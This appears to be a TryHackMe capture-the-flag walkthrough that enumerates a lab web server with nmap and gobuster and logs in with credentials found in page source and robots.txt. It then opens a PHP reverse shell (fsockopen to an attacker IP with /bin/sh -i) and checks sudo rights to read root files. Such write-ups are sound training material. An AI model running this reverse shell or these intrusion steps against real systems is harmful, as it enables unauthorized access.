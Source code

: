 # Tryhackme ctf challenge
my machine: 10.9.234.242
target ip: 10.10.40.177

#### procedure

1. Perform nmap scan `nmap -sC -sV 10.10.40.177`
    ![init nmap scan](./images/nmap_initial.png)
    - since we know port 80 is open we can explore the website. There will be a hint within the source code of the the home page. Let's remember the username `R1ckRul3s`

2. Perform gobuster scan to enumarate the website `gobuster dir -w <path to wordlist> -u http://10.10.40.177:80 -x php,txt,py,sh,cgi,bak,css,js`
    ![gobuster scan](./images/gobuster.png)
    - gobuster was able to identify the route /login.php. I captured one of the requests using burpsuite to get the parameters that are submitted during post login, to try and perform a bruteforce on the http post form using hydra. (No success)
    ```
    POST /login.php HTTP/1.1
    Host: 10.10.40.177
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31
    Origin: http://10.10.40.177
    Connection: close
    Referer: http://10.10.40.177/login.php
    Cookie: PHPSESSID=8hktk8c7ddson4fim2o6gefl74
    Upgrade-Insecure-Requests: 1

    username=a&password=a&sub=Login
    ```
    - eventually we eventually found the password from robots.txt `Wubbalubbadubdub`. Let's try to login using `R1ckRul3s`.

3. Once we logged in we have a command panel where we can run limited commands under the www-data user.

    - perform a reverse shell using this command `php -r '$sock=fsockopen("<your ip>",<your port>);exec("/bin/sh -i <&3 >&3 2>&3");'`
    - once we got the shell from our terminal we can see there's a file that we cannot directly open to get the 1st ingredient. (use grep to open)
    ![1st ingredient](./images/first_ingredient.png)
    - 2nd ingredient will be located somewhere around /home
    - last ingredient would most likely be in /root, but we don't have acces to it. try to run this command `sudo -l` and try to see if you can use grep to get the last ingredient.
